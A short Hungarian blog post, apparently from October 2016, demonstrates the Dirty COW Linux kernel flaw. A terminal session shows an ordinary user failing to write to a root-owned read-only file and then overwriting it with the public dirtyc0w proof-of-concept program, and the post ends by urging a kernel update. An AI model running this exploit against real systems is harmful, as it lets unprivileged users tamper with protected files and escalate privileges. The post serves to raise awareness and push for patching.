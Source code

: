 ```yaml
---
layout: post
title: 'dirty cow'
permalink: /2016/10/27/dirty_cow
post_id: 11839729
categories: 
- linux
- kernel
- dirty_cow
---
```


A 
[dirty cow](https://dirtycow.ninja/) sebeshetőséget tesztelhetjük egy speciális 
[programmal](https://github.com/dirtycow/dirtycow.github.io).

A /tmp/teszt fájl rooté és senkinek sincsen rá írási joga, néhány 'a' betű van benne:

```
$ ls -l /tmp/teszt
 -r-----r-- 1 root root 5 Oct 26 08:55 /tmp/teszt
 $ cat /tmp/teszt
 aaaa
```

Nem túl meglepő módon sima felhasználóként nem tudunk a fájlba írni

```
$ echo 'bbbb' >> /tmp/teszt
 bash: /tmp/teszt: Permission denied
```

A dirty cow tesztprogram használatával viszont meglepő módon bele tudunk írni a fájlba:

```
$ ./dirtyc0w /tmp/teszt cccc
 mmap 7f7b1ab10000
 madvise 0
 procselfmem 50000000
 $ cat /tmp/teszt
 cccc
```

A sebeshetőség 2007 óta van benne a Linux kernelben, így mindenkinek erősen javasolt a frissítés.